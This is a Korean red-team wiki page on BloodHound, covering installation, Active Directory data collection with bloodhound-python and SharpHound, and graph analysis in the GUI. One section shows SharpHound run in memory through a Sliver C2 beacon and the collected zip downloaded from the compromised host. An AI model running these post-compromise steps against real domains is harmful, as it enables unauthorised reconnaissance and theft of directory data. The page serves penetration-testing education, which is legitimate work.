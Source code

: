# 블러드하운드

![이미지 출처: https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png>)

[블러드하운드(BloodHound)](https://github.com/BloodHoundAD/BloodHound)는 액티브 디렉토리의 LDAP 데이터를 수집하고 이를 그래프 자료구조 형식으로 보여주는 툴이다. 수만명의 도메인 유저 계정, 수십만대의 호스트들의 관계와 정보를 일일히 수동으로 정리하는 것은 불가능에 가깝다. 블러드하운드는 이를 도와주기 위해서 만들어진 툴이다.&#x20;

블러드하운드는 총 3가지 툴로 운영된다.&#x20;

1. 블러드하운드 Data Ingestor - 도메인 컨트롤러에 접근에 LDAP 데이터를 추출한 뒤, 도메인 유저, 호스트, 그룹, 세션 등의 데이터를 json 형태로 저장하는 툴.&#x20;
2. Neo4J - 블러드 하운드의 백엔드 데이터베이스. Ingestor가 추출한 json 파일을 neo4j 데이터베이스에 불러온 뒤 블러드하운드 GUI에서 사용할 수 있게된다.&#x20;
3. 블러드하운드 GUI  - 백엔드 데이터베이스의 데이터를 그래프 자료구조의 형식으로 보여주는 프론트엔드 GUI 툴.&#x20;

### 설치&#x20;

블러드하운드 설치는 [공식 문서](https://github.com/BloodHoundAD/BloodHound)를 참고한다.&#x20;

```
# 칼리 리눅스 
apt update -y 
apt install bloodhound -y 
neo4j console 

# http://localhost:7474 방문 후 neo4j:neo4j 를 이용해 로그인. 
# 이후, 비밀번호를 바꿔줌.

# 블러드하운드 실행 후 neo4j:<바뀐-비밀번호>로 로그인 
bloodhound 
```

![블러드하운드 GUI 로그인 화면](<../.gitbook/assets/image (8) (1) (1).png>)

### 사용 - 데이터 Ingestor

블러드하운드를 이용하기 위해선 타겟 도메인의 액티브 디렉토리 데이터를 Ingestor를 이용해 추출해야한다. 액티브 디렉토리 데이터를 추출하기 위해서는 도메인 유저의 계정정보나 세션이 필요하다. 초기 침투가 성공적이였다면 대부분 도메인 유저 (ex. 회계 부서의 김인턴) 의 문맥을 갖게된다.&#x20;

데이터 Ingestor는 다양한 액티브 디렉토리의 정보들을 빼내올 수 있다. 공식문서의 `-c, Collection method`를 참고한다.&#x20;

리눅스에서는 [`bloodhound-python`](https://github.com/fox-it/BloodHound.py) 툴을, 윈도우에서는 [`SharpHound`](https://github.com/BloodHoundAD/SharpHound) 툴을 이용한다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
리눅스에서는 bloodhound-python을 이용한다.&#x20;

```
# 설치 
pip3 install bloodhound 

# 실행 
bloodhound-python -c DCOnly -u <user> -p <pass> -d <domain> -dc <dc-fqdn>
bloodhound-python -c DCOnly -u low -p 'Password123!' -d choi.local -dc dc01.choi.local
```
{% endtab %}

{% tab title="윈도우 - 콘솔" %}
콘솔을 갖고 있는 경우 SharpHound를 이용한다. SharpHound는 .NET 어셈블리이기 때문에 직접 실행하거나 파워쉘에서 불러온 후 메모리상에서 실행할 수 있다.&#x20;

```
# Sharphound.exe 실행 
./SharpHound.exe -c <method> -d <domain>
./SharpHound.exe -c All -d choi.local
```
{% endtab %}

{% tab title="윈도우 - 비컨" %}
SharpHound는 .NET 어셈블리이기 때문에 비컨의 메모리상에서 execute-assembly 형식으로 사용할 수 있다.&#x20;

```
# SharpHound Release를 다운받거나, 깃-클론 뒤 컴파일한다. 
wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.3/SharpHound-v1.0.3.zip . 
unzip SharpHound-v1.0.3.zip

# 슬리버의 execute-assembly를 이용해 메모리상에서 SharpHound를 실행한다. 
sliver> use <beacon-name>
sliver> execute-assembly /root/redteam/tools/SharpHound.exe "-c All -d choi.local"

# 다운로드 할 때는 백슬래쉬 이스케이프를 해주거나 큰 따옴표를 이용한다. 
sliver> download <원격-파일경로> <로컬-파일경로>
sliver> download "C:\Users\Administrator\Downloads\20220613235339_BloodHound.zip" /root/redteam/bh.zip
```
{% endtab %}
{% endtabs %}

### 사용 - 블러드하운드 GUI

다운 받은 zip파일을 블러드하운드 GUI에다가 드래그 & 드롭 하면 된다.&#x20;

![](<../.gitbook/assets/image (3) (1) (1) (1).png>)

이후 Analysis에서 미리 준비된 쿼리를 이용하거나 하단의 `Raw Query` 를 통해 직접 Cypher Query를 사용한다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://bloodhound.readthedocs.io/en/latest/" %}

{% embed url="https://github.com/BloodHoundAD/BloodHound" %}

{% embed url="https://github.com/BloodHoundAD/SharpHound" %}

{% embed url="https://github.com/fox-it/BloodHound.py" %}
